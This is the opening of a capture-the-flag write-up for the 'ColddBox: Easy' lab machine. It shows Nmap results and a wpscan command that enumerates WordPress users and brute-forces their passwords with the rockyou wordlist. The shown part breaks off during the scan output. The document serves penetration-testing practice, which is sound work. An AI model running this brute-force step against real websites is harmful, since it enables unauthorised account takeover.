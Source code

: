 # ColddBox: Easy

An easy level machine with multiple ways to escalate privileges.

# User flag

*Hint: Provide the flag in its encoded format*

## Services

Running a full Nmap scan will reveal 2 open ports, 1 of which on a non standard port (SSH is running on port 4512):

~~~
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Wordpress

Apache is hosting a Wordpress installation. Let's enumerate users and attempt to brute force passwords. 

~~~
kali@kali:/data/vpn$ wpscan --url http://10.10.124.236/ -e u -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.7
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.124.236/ [10.10.124.236]
[+] Started: Thu Apr 29 13:22:11 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.124.236/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
~~~